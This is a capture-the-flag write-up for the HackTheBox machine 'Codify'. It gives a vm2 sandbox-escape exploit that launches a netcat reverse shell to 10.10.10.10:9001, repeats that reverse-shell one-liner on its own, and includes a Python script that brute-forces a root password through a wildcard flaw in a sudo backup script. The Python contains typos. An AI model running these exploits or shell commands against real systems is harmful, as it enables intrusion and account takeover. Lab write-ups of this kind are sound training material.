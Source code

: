```yaml
---
layout: post
title: "Codify-Linux-Easy"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/57b977ea744af01a5454c8643a850e59.webp
---
```


# Codify

HackTheBox: Medium

<aside>
💡 Codify is a compiler service it runs on VM2 we just find its vulnerabilitie having code we execute

</aside>

## 1: Enumeration

- nmap scanning

 

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled.png' | relative_url }})

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_1.png' | relative_url }})

FOOTHOLD

```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
cmd = 'id'
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f);
}
`
console.log(vm.run(code));
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

## 2: User flag

Route

```bash
/var/www/contact 
```

There is a db creds

We use john for get user flag (joshua)

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_2.png' | relative_url }})

## 3: Priv esc

> There is a mistake (bad practice) with mysql. Sometimes bash uses the admin password as a “args” and not as a string so we can use a script and with the help of * we can make:
> 

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_3.png' | relative_url }})

![Untitled]({{ '/assets/images/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b/de9a4e1e-19d2-40a6-848d-e590a41133d7-export-1b798080-ea5b-40f7-840b-6165772d2c2b_Untitled_4.png' | relative_url }})

```bash
import string
import subproccess

def check_password(p):
	command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
	result = subprocess.run(command, shell=True, stdout=subproccess.PIPE, stderr=subproccess.PIPE, text=True)
	return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
	for char in charset:
		if check_password(password + char)
			password += char
			print(password)
			break
	else:
		is_password_found = True
```

klj12h3jhaskjh12kjh3

Machine pwned!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
